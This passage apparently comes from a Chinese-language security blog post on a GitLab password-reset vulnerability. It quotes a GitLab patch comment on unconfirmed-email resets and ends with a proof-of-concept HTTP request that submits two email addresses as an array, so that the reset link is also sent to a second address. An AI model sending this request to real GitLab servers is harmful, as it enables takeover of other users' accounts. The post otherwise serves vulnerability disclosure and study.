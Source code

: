 ![](https://mmbiz.qpic.cn/mmbiz_png/M3XUNBmia1tPEE0QWwzX8z8wmLfFyz1wPwLZtkIDqgRoVg3C7GwlUzPbf267T37gLt2d4bNjP1tdz2b6oAFfTiaA/640?wx_fmt=png&from=appmsg "")  
  
**题外话**  
  
在补丁里面Gitlab维护者说明了为什么要使得未验证的邮箱可以获取到重置密码的链接，是为了方便管理员获取到重置密码链接，从而修改密码，避免被恶意用户直接设置2FA。  
```
```  
```
        # By default 'devise' gem allows password reset by unconfirmed primary email.
        # When user account with unconfirmed primary email that means it is unconfirmed.
        #
        # Password reset by unconfirmed primary email is very helpful from
        # security perspective. Example:
        # Malicious person creates user account on GitLab with someone's email.
        # If the email owner confirms the email for newly created account, the malicious person will be able
        # to sign in into the account by password they provided during account signup.
        # The malicious person could set up 2FA to the user account, after that
        # te email owner would not able to get access to that user account even
        # after performing password reset.
        # To deal with that case safely the email owner should reset password
        # for the user account first. That will make sure that after the user account
        # is confirmed the malicious person is not be able to sign in with
        # the password they provided during the account signup. Then email owner
        # could sign into the account, they will see a prompt to confirm the account email
        # to proceed. They can safely confirm the email and take over the account.
        # That is one of the reasons why password reset by unconfirmed primary email should be allowed.

```  
```
```  
  
**复现截图**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/M3XUNBmia1tPEE0QWwzX8z8wmLfFyz1wPHDcYuKliaicQRX1T3xRKIN14zlxFk501L201rqLibNsPaItpCOXxoJoMg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/M3XUNBmia1tPEE0QWwzX8z8wmLfFyz1wPLStfDwP3wS6BweuWlLb6uD69yTv3ibCmybcm3YIGZ4G7oEriaQETw3Rg/640?wx_fmt=png&from=appmsg "")  
  
PoC  
```

```  
```
POST /users/password HTTP/1.1
Host: 192.168.59.211
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.59.211/users/password/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Origin: http://192.168.59.211
Connection: close
Upgrade-Insecure-Requests: 1

authenticity_token=f5QX5M91ZRP8-AfaC9G0xBLeOJflvQnB1G7-hZcbtd02t1-TXduqcTgC3dDfWyVqX7ik_aXAcq3fgK02gN01bg&user%5Bemail%5D%5B%5D=xxx@gmail.com&user%5Bemail%5D%5B%5D=aaa@gmail.com
```  
###   
### 小结  
  